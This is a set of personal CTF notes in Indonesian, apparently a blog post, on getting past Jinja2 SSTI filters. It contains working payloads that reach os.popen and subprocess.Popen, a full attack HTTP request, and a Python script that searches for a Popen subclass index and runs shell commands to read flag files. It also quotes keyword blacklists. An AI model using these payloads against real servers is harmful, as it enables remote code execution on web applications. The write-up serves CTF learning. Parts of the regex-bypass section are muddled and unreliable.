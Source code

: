 ```yaml
---
title: "My CTF - Notes"
description: ""
pubDate: 2025-07-25 10:00
slug: "ctf-notes"
---
```


-[Web](#web)
    - [SSTI](#ssti)

Ini adalah catetan saya yang dibuat secara personal berdasarkan pengalaman saya yang telah mengerjakan ctf selama ini

# Web

## SSTI

ada chall ini, diberikan program berikut:

```py
def security_filter(user_input):
 blacklist = ["%", "\\", "/", "\"", "'", "`", "|", " ", "[", "]", "+","init", "subprocess", "globlas", "config", "update", "mro", "subclasses",
"class", "base", "builtins", "cycler", "joiner", "namespace", "lipsum"]

 for word in blacklist:
    if word in user_input:
        return False
 return True
 ```

 payload untuk bypass : `{{url_for.__globals__.os.popen(request.headers.tel).read()}}`

 req header:
```
POST /search HTTP/1.1
Host: 103.160.212.3:1339
Content-Length: 70
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://103.160.212.3:1339
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Tel: cat /flag.txt   -> ini variabel baru
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/a
png,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://103.160.212.3:1339/

Accept-Encoding: gzip, deflate, br
Connection: keep-alive

query={{url_for.__globals__.os.popen(request.headers.tel).read()}}
```

---

The regex expression is `/^[0–9a-z ]+$/i`

- Only numbers and lowercase
- Key insensitive

![alt text](image.png)

![alt text](image-1.png)

---

The Regex filter bypass is:

`/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/`


```



{system('whoami')

}


```

---

```py
blacklists =['os', 'sys', 'import','subprocess', 'shutil', 'tempfile', 'pickle', 'marshal',
            'write', 'eval', 'exec', 'system', 'popen', 'open',
            'call', 'check_output', 'check_call', 'startfile', 'remove', 'unlink',
            'rmdir', 'remove', 'rename', 'replace', 'chdir', 'chmod', 'chown',
            'chroot', 'link', 'lchown', 'listdir', 'lstat', 'mkdir', 'makedirs',
            'mkfifo', 'mknod', 'open', 'openpty', 'remove', 'removedirs',
            'rename', 'renames', 'rmdir', 'stat', 'symlink', 'unlink', 'walk', 'write',
            'popen', 'builtins', 'global'] 
```

pertama cari dulu class2 nya pake ini:
```
{{ dict.__base__.__subclasses__()[50:100] }}
```

intinya kita harus dapetin class seperti `Popopen` buat bisa ngelakuin command, nah kita harus cari di index mana, jadi bisa pake script ini buat nyari biar ga cape nge brute:
```py
import requests
from bs4 import BeautifulSoup

# Konfigurasi
url = "http://localhost:8888/card"
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Fungsi untuk kirim payload dan ambil hasil render
def send_payload(payload):
    try:
        res = requests.post(url, data=f"name={payload}", headers=headers, timeout=5)
        soup = BeautifulSoup(res.text, "html.parser")
        return soup.get_text()
    except Exception as e:
        return f"[!] Error: {e}"

# 1. Cari index dari subprocess.Popen
def find_popen_index(start=0, end=500):
    print("[*] Searching for subprocess.Popen...")
    for i in range(start, end):
        payload = f"{{{{ dict.__base__.__subclasses__()[{i}] }}}}"
        result = send_payload(payload)
        if "subprocess.Popen" in result:
            print(f"[+] Found subprocess.Popen at index: {i}")
            return i
    print("[!] subprocess.Popen not found")
    return None

# 2. Eksekusi perintah via subprocess.Popen
def execute_command(popen_index, command="cat /flag.txt"):
    payload = (
        f"{{{{ dict.__base__.__subclasses__()[{popen_index}]("
        f"'{command}', shell=True, stdout=-1).communicate() }}}}"
    )
    print(f"[*] Executing: {command}")
    result = send_payload(payload)
    print("\n[+] Command Output:\n", result.strip())

# Main
if __name__ == "__main__":
    popen_index = find_popen_index()
    if popen_index is not None:
        execute_command(popen_index)
```

misal kita dapet class `subprocess.Popen` di index `371` kita tinggal masukin command:

```
{{ dict.__base__.__subclasses__()[371]("cat /flag.txt", shell=True, stdout=-1).communicate() }}
```

tapi untuk chall ini, letak flag di letakkan di luar main dir `/app`, sedangkan flag di taruh di `/`, sehingga kita bisa modifikasi command nya jadi:

```
{{ dict.__base__.__subclasses__()[371]("for f in /?*.txt; do cat $f; done", shell=True, stdout=-1).communicate() }}

